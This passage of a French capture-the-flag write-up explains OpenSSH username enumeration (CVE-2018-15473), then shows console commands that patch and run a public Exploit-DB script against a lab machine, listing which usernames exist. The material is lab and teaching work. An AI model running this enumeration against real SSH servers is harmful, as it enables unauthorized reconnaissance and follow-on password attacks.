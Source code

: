 ```console
19 results.

21 queries in 1 seconds (21.0 queries / sec)
```

### SSH Username Enumeration (CVE-2018-15473)

Une vulnérabilité liée à OpenSSH a été rendue publique en août 2018, puis classée sous l'identifiant [CVE-2018-15473](https://nvd.nist.gov/vuln/detail/CVE-2018-15473). En résumé, lors d'une connexion SSH (demande d'authentification du client auprès du serveur), le serveur vulnérable répondra différemment selon si le compte utilisateur fourni existe ou non. De cette manière, tout comme le protocole SMTP, il est possible de déterminer très rapidement si un compte utilisateur existe ou non. La vulnérabilité est bien plus expliquée en détails sur sekurak.pl _[OpenSSH – users enumeration – CVE-2018-15473](https://sekurak.pl/openssh-users-enumeration-cve-2018-15473/)_ ou encore sur le blog de Didier Stevens _[OpenSSH User Enumeration Vulnerability: a Close Look](https://blog.nviso.be/2018/08/21/openssh-user-enumeration-vulnerability-a-close-look/)_.

Le script utilisé pour ce CTF est celui de [Justin Gardner](https://twitter.com/rhynorater), publié sur [Exploit-DB](https://www.exploit-db.com/exploits/45233) sous la référence 45233. Seul petit problème rencontré : une erreur ```TypeError: 'property' object has no attribute '__getitem__'``` liée semble-t-il à la librairie [paramiko](http://www.paramiko.org/), mais dont la solution a été [publiée sur Github](https://github.com/paramiko/paramiko/issues/1314).

```console
root@blinils:~# python sshUsernameEnumExploit.py --userList drupal_users.txt 192.168.56.102 --outputFile test.txt
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 30, in <module>
    old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
TypeError: 'property' object has no attribute '__getitem__'

root@blinils:~# sed -i 's/._handler_table/._client_handler_table/g' sshUsernameEnumExploit.py

root@blinils:~# python sshUsernameEnumExploit.py --userList drupal_users.txt 192.168.56.102 --outputFile test.txt
[+] Results successfully written to test.txt in List form.

root@blinils:~# cat test.txt
admin is not a valid user!
anonymous is not a valid user!
sloreman is a valid user!
tmaloney is a valid user!
xbruce is a valid user!
mswanson is a valid user!
jstone is a valid user!
shunter is a valid user!
jingersol is a valid user!
jgrimes is a valid user!
dhart is a valid user!
gprune is a valid user!
jalderman is a valid user!
jgoldman is a valid user!
bdio is a valid user!
hplink is a valid user!
gconnor is a valid user!
sholden is a valid user!
spinkton is a valid user!
jharraway is a valid user!
sswiney is a valid user!
```
